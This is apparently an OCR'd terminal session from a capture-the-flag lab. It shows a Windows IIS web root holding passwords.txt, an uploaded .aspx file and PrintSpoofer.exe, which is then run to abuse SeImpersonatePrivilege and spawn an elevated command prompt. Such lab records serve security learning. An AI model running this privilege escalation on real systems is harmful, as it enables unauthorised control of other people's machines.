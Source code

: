 ```bash
07/25/2020  07:07 AM    <DIR>          history
07/25/2020  07:05 AM    <DIR>          logs
07/25/2020  07:05 AM    <DIR>          temp
07/25/2020  01:46 PM    <DIR>          wwwroot
07/25/2020  01:04 PM    <DIR>          wwwroot1
               0 File(s)              0 bytes
               7 Dir(s)  21,144,723,456 bytes free

c:\inetpub>cd wwwroot
cd wwwroot

c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot

07/25/2020  01:46 PM    <DIR>          .
07/25/2020  01:46 PM    <DIR>          ..
07/25/2020  07:05 AM    <DIR>          aspnet_client
07/25/2020  07:05 AM               703 iisstart.htm
07/25/2020  07:05 AM            99,710 iisstart.png
11/12/2021  06:30 PM    <DIR>          nt4wrksv
               2 File(s)        100,413 bytes
               4 Dir(s)  21,144,723,456 bytes free

c:\inetpub\wwwroot>cd nt4wrsksv 
cd nt4wrsksv
The system cannot find the path specified.

c:\inetpub\wwwroot>cd nt4wrksv
cd nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

11/12/2021  06:50 PM    <DIR>          .
11/12/2021  06:50 PM    <DIR>          ..
07/25/2020  07:15 AM                98 passwords.txt
11/12/2021  06:50 PM            27,136 PrintSpoofer.exe
11/12/2021  06:30 PM             3,392 relv.aspx
               3 File(s)         30,626 bytes
               2 Dir(s)  21,144,723,456 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
___
